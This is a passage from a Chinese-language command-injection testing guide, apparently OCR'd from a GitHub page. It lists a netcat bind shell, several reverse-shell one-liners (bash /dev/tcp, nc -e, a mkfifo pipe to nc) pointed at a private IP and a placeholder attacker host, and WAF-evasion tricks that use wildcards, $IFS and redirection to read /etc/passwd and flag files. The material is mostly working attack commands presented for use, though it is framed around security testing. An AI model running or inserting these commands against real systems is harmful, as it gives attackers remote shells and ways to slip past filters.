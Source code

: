 ### 监听shell连接
```
nc -e /bin/sh -lnp 7777 &
```

### 反弹shell
反弹shell可以直接通过命令注入反弹，也可以通过上传反弹shell的脚本文件，再执行脚本完成反弹操作。
```
sh -i > /dev/tcp/ip/port 2>&1 0>&1
```

```
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
或者
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

```
nc -e /bin/sh 192.168.146.129 2333
或者
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
```

了解更多，可查看参考材料[20].

### 绕过
按理说在利用之前，命令注入测试过程，应该要考虑waf绕过，实际上如果确定目标系统存在waf，应该先手动去探测waf的过滤规则，这个也不在本文讨论范围。本文更多的是围绕测试覆盖度的角度。以waf为例，先确定waf绕过规则，再定制payload，再利用自动化工具去跑payload。

通配符
- \* 匹配任意长度任意字符
- ? 匹配任意单个字符
- [list] 匹配指定范围内（list）任意单个字符，也可以是单个字符组成的集合
- [^list] 匹配指定范围外的任意单个字符或字符集合
- [!list] 同[^list]
- {str1,str2,…} 匹配 srt1 或者 srt2 或者更多字符串，也可以是集合

比如
```
cat /e??/??sswd
cat /?t?/p[a-z]sswd
cat /??c/p{"as","ss"}swd
```

#### 空格绕过
**使用<或者<>**
```
$ cat</flag
flag{xxx}

$ cat<>/flag
flag{xxx}
```

**使用$IFS或者$9**
```
$ cat$IFS$9/flag
flag{xxx}

$ cat${IFS}/flag
flag{xxx}

$ cat$IFS/flag
flag{xxx}
```
